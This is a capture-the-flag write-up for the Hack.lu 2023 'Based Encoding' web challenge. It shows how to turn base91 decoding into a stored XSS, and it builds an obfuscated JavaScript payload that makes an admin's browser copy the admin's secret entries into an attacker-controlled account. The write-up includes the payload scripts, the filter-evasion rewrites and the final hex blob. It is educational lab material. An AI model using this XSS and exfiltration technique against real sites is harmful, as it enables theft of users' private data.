




# Hack.lu CTF 2023 - Based Encoding

| Solves | Category | Author |
|--------|----------|--------|
| 101    | `web`    | newton | 

## Challenge:

Based encoding as a service. But can we insert a little tomfoolery? Let's find out.

## Solution:

If we take a look at the app, we can do the following things:
- signup with a new account
- login with an account
- create a new encoding
- view a list of your submitted encodings
- view a specific encoding
- report an encoding for an admin to check out

The encoding in question is base91, which is very similar to base64 but can use some more characters for encoding. Here is the full list of characters:

```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
0123456789!#$%€()*+,°/:;<=>?@[]^_`{|}~"
```

These last couple of characters seem interesting...

Let's login and create a simple test encoding for the text "test message":

[](./assets/screen0.png)

The encoded characters are displayed in the page. We can use this to try to inject some JavaScript code! Let's try to forge an input that, when encoded, produces a `<script>` tag with some simple JavaScript.

Luckily, we already have [a Python library](./assets/files/based91.py) available for us to use in the challenge files. Let's throw together a short script we can use:

```python
import based91


payload = '<script>alert(1)</script><!--'
to_send = based91.decode(payload)

print(to_send)
```

(We added the HTML commment in the end just to avoid issues with the padding)

The output is the following:

```python
bytearray(b'\xf0\xaf\xec\xd5\xba\xf3\x1d\xd4\xce\x9e\xff\r\xc3?\x1aD\x051\x14(\xb5}')
```

Okay, those are mostly non-printable bytes. Luckily, if we search the respective part in [the app's code](./assets/files/app.py), we can see that it also takes hex bytes as input. So, we can modify our script respectively:

```python
import based91
import binascii


payload = '<script>alert(1)</script><!--'
to_send = binascii.hexlify(based91.decode(payload))

print(to_send)
```

That output is a lot easier to handle:

```python
b'f0afecd5baf31dd4ce9eff0dc33f1a4405311428b57d'
```

Let's try and create that encoding:

[](./assets/screen1.png)

Perfect! We got stored XSS. But... What do we want to do with it? If we take a look at [the app's code](./assets/files/app.py) again, we can see that there is an admin account. When initializing the database, the flag is stored as an encoding of the admin.

The first idea would be to steal the admins session. Unfortunately the cookie is set to "HTTP only". That means we can't access it from JavaScript. But, we can forge any JavaScript code. So, let's try the following idea:

1. Read all available encodings of the current account (admin).
1. Extract the encodings IDs.
1. Get the values of those encodings.
1. Login as another user that we know the credentials of.
1. Create new encodings with the encodings of the admins that we fetched before.

But, we have a limitation: Our hex code must be shorter than 1000 [hex nibbles](https://en.wikipedia.org/wiki/Nibble). Let's ignore that for now, but at least be mindful when choosing variable names.

```javascript
// helper function for sending post requests
f = (u,b) => fetch(u, {
    method: "POST",
    credentials: "include",
    body: b
});
// get encodings
let p = await fetch("/");
p = await p.text();
// extract encodings IDs
let q = p.match(/[a-f0-9]{40}/g).map(async h => {
    // fetch values
    let v = await fetch("/e" + h);
    v = await v.text();
    let x = document.createElement("html");
    x.innerHTML = v;
    return x.getElementsByClassName("subtitle")[0].innerHTML;
});
// login as another user, previously created
let u = new FormData;
u.append("username", "1");
u.append("password", "1");
await f("/login", u);
// create new encodings with stolen values
q.forEach(async i => {
    let u = new FormData;
    u.append("text", i);
    await f("/login", u);
});
```

Now, there are several problems with this code:
- We are using spaces and newlines. Those are not available in base91.
- We are using dots. Those are also not available in base91.
- We are using a dash in the regex. That is also not available.

First of all, the regex. We can replace the `/[a-f0-9]{40}/g` with something less precise: `/[^<>]{40}/g`. This still works because of the length limit of 40.

To remove the spaces, we can remove them where they are not necessary. The necessary ones can mostly be replaced with `/**/`. Unfortunately, this does not work for `await`. So, we need to find a way to build this script with `.then()`, which I find especially difficult. Let's do that first before replacing all the spaces:

```javascript
f = (u,b) => fetch(u, {
    method: "POST",
    credentials: "include",
    body: b
});
let p;
let q=[];
fetch("/")
    .then(r => r.text())
    .then(v => p = v);
setTimeout(() => {
    p.match(/[^<>]{40}/g).forEach(
        h => fetch("/e/"+h)
        .then(r => r.text())
        .then(v => {
            let x = document.createElement("html");
            x.innerHTML = v;
            q.push(x.getElementsByClassName("subtitle")[0].innerHTML);
        })
    )
},100);
let u = new FormData;
u.append("username", "1");
u.append("password", "1");
setTimeout(()=>f("/login", u), 200);
setTimeout(()=>{
    q.forEach(h=>{
        let u = new FormData;
        u.append("text", h);
        f("/create", u);
    })
},300);
```

That's a bit hacky, but it works. We could remove all spaces now, but let's first tackle the dots, while the code is still somewhat readable. We always use dots to access properties. We can also use brackets for that:

```javascript
foo.bar("test") => foo["bar"]("test")
```

Let's do that for our current payload:

```javascript
f = (u,b) => fetch(u, {
    method: "POST",
    credentials: "include",
    body: b
});
let p,q=[];
fetch("/")
    ["then"](r => r["text"]())
    ["then"](v => p = v);
setTimeout(() => {
    p["match"](/[^<>]{40}/g)["forEach"](
        h => fetch("/e/"+h)
        ["then"](r => r["text"]())
        ["then"](v => {
            let x = document["createElement"]("html");
            x["innerHTML"] = v;
            q["push"](x["getElementsByClassName"]("subtitle")[0]["innerHTML"]);
        })
    )
},100);
let u = new FormData;
u["append"]("username", "1");
u["append"]("password", "1");
setTimeout(()=>f("/login", u), 200);
setTimeout(()=>{
    q["forEach"](h=>{
        let u = new FormData;
        u["append"]("text", h);
        f("/create", u);
    })
},300);
```

Okay, now the last bit: Let's remove all whitespaces and replace them where necessary with `/**/`:

```javascript
f=(u,b)=>fetch(u,{method:"POST",credentials:"include",body:b});let/**/p,q=[];fetch("/")["then"](r=>r["text"]())["then"](v=>p=v);setTimeout(()=>{p["match"](/[^<>]{40}/g)["forEach"](h=>fetch("/e/"+h)["then"](r=>r["text"]())["then"](v=>{let/**/x=document["createElement"]("html");x["innerHTML"]=v;q["push"](x["getElementsByClassName"]("subtitle")[0]["innerHTML"]);}))},100);let/**/u=new/**/FormData;u["append"]("username","1");u["append"]("password","1");setTimeout(()=>f("/login",u),200);setTimeout(()=>{q["forEach"](h=>{let/**/u=new/**/FormData;u["append"]("text",h);f("/create",u);})},300);
```

"Decoding" this results in the following hex bytes:

```
f0afecd5baf3edb73b21781add53ab035eaf4e98eda115faba53486042993697b9ecb5a9fd36c4829a9e86631bea0f1eabcb3ce5c6e37822c472ad0342631c6d9613f75d875a1df07a058147e043cf82cbaa041cc18afbf23d81d70a0602f637fcd0b3e0b22a0147b0e30e7702b15d5b2b7743daac5c0ba4c0a31bdcd373ee9601af1760b7d1d2dd80937b5ab9a499f01378e52e8383fa004730e09e5a1df07a0581f3ea080c600f3d0b2eab1270042beecbf7045e2b1808d8dff043cf82cbaa041cc18e1bdc3f2b10cd8c6923a7e250b06dbfe1732755ad32a0627856d0ca0402f62010043635436c1b9fc0ff16ad50c51549006337b6aee7ed4efa7d8023989febae0eb8d240db7e8b7ec731a5f9be65c2d938c011ecff8ed310a36a1ce043d7ea4fe07f8b56a8e28a24807e78f2c3e1ca1c2bc1b05ceb80d0184737ee6835a2993184887b3721030eeb7c8e9978dd7edb0047302db456088eb3718045e00cd8aef33966e275fb6d031cc1edcef7f1c4b8b70116813360bbb656ee86b459b916488147f7d40a02e11ae2fa6f97590be74d58d9aead95bb216d56ae0552e0d10deeebf9d78a7b42e97a0176ff75c0fb5a0784c638ba7147ab11cd8c2144dcbb09197058e773ccc4ebf6db063882b360625c010558bb86bf4dbaec71a56b7599b5f0e467fcd41356b6eb1f0da282180a94da3e
```

That 998 nibbles... close enough. Let's set up the account with username "1" and try it out. We create a new encoding with those bytes and report it:

[](./assets/screen2.png)

Okay, those are quite a few encodings. That's because we had to cut corners with our regex. But: The last one is actually the one we want:

[](./assets/screen3.png)

Let's "decode" that:

```python
import based91


based91.decode('fPNKF°AIQS')
```

The output is the flag!

```python
bytearray(b'testflag')
```